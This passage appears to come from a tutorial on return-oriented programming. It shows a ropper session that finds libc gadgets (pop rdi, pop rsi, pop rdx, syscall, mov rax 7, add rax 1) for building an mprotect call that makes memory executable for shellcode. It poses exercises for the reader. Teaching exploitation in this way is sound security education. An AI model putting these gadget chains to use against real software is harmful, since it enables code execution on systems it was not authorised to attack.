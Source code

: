 We find the needed gadgets in libc:

```bash
$ ropper

(ropper)> file /lib64/libc-2.28.so

(libc-2.28.so/ELF/x86_64)> search /1/ pop%; ret
0x0000000000023dd3: pop rdi; ret;
...
0x000000000010ae46: pop rdx; ret;
...
0x000000000002477e: pop rsi; ret;
...

(libc-2.28.so/ELF/x86_64)> search syscall; ret
...
0x00000000000b8ba9: syscall; ret;

(libc-2.28.so/ELF/x86_64)> search /1/ mov rax, 7
...
0x00000000000b7d40: mov rax, 7; ret;

(libc-2.28.so/ELF/x86_64)> search /1/ add rax
...
0x00000000000b7cb0: add rax, 1; ret;
```

Notice that to get 0xa into rax, we first use a gadget to move the value 7 into it (this gadget was found with searches starting at 10), then run a gadget that adds one to i three times.

> `/1/` tells ropper to show only gadgets of the best quality.

> Try to find alternative, usable gadgets as a challenge. Maybe there is a gadget that can do the work of many of the above gadgets?

The second challenge is to put shellcode in our RWX memory.

...

